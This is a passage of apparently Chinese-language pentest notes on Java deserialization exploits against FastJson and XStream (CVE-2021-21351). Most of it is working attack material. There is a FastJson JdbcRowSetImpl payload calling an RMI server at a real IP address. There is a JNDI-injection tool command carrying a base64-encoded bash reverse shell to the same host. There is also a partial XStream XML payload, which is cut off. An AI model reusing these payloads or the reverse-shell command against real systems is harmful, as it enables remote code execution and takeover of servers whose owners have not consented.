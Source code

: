 FastJson <= 1.2.47

```java
JSONObject jsonToObject = JSON.parseObject("{\n" +

" \"a\":{\n" +

" \"@type\":\"java.lang.Class\",\n" +

" \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +

" },\n" +

" \"b\":{\n" +

" \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +

" \"dataSourceName\":\"rmi://47.94.236.117:1099/j2azgf\",\n" +

" \"autoCommit\":true\n" +

" }\n" +

"}");
```

FastJson <= 1.2.80
开始没有autotype类，所以需要引用自带的组件和类文件

利用poc只能用项目中调用的组件和类文件

# XStream

开源Java类库，能将对象序列化成XML或XML反序列化为对象

历史漏洞：https://avd.aliyun.com/search?q=XStream

1、代码执行 (CVE-2021-21351)

Xstream<=1.4.15

-生成反弹Shell的JNDI注入

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45NC4yMzYuMTE3Lzk5MDAgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 47.94.236.117
```

-构造JNDI注入Payload提交

```xml
<sorted-set>

<javax.naming.ldap.Rdn_-RdnEntry>

<type>ysomap</type>

<value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>

<m__DTMXRTreeFrag>

<m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>

<m__size>-10086</m__size>

<m__mgrDefault>

<__overrideDefaultParser>false</__overrideDefaultParser>
```